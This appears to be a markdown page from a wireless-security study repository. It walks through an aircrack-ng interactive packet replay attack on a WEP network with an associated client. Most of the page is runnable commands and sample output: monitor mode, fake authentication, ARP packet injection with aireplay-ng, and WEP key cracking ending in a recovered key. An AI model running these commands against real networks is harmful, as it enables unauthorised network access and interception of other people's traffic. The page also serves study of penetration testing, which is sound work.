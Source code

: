 #  Interactive Packet Replay - (Attacking a Connected Client) (WEP)

This attack allows you to choose a specific packet for replaying (injecting). The attack can obtain packets to replay from two sources. The first being a live flow of packets from your wireless card. The second being from a pcap file. Standard Pcap format (Packet CAPture, associated with the libpcap library http://www.tcpdump.org), is recognized by most commercial and open-source traffic capture and analysis tools. Reading from a file is an often overlooked feature of aireplay-ng. This allows you read packets from other capture sessions or quite often, various attacks generate pcap files for easy reuse. A common use of reading a file containing a packet your created with packetforge-ng.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the interactive attack against the client and wait
sudo aireplay-ng --interactive -b $BSSID -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 $INTERFACE
```
* View output. This is a candidate ARP packet to be used for injection.

```
No source MAC (-h) specified. Using the device MAC (AB:CD:EF:12:34:56)
Read 171 packets...

        Size: 86, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  AA:BB:CC:DD:EE:FF
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  11:22:33:44:55:FF

        0x0000:  0842 0000 ffff ffff ffff 009f a924 b928  .B...........$.(
        0x0010:  109f a924 b925 e0fc b18f 0500 0991 2b11  ...$.%........+.
        0x0020:  b707 3a2c 50b7 4f19 3098 3cd4 9e38 21cb  ..:,P.O.0.<..8!.
        0x0030:  559c d938 d229 04db 45d8 a4b7 85fe 6634  U..8.)..E.....f4
        0x0040:  4a7d 5996 5822 817e 2b7a 0c12 0326 0661  J}Y.X".~+z...&.a
        0x0050:  cd3e 57e8 9d1f                           .>W...

Use this packet ?

# Say yes and monitor the data ... it should be getting big.
# If not, then ctrl-c ... try another
# Keep doing until the data starts to increase
```

```bash
# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* Look for the suscessful output - assuming enough IVs are available

```
Reading packets, please wait...
Opening wifu-01.cap
Read 806868 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WGot 184612 out of 180000 IVsStarting PTW attack with 184612 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

### Using an Existing AP Packet

```bash
# Use an existing AP packet file
sudo aireplay-ng --interactive -r replay_src-0613-135427.cap $INTERFACE
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)
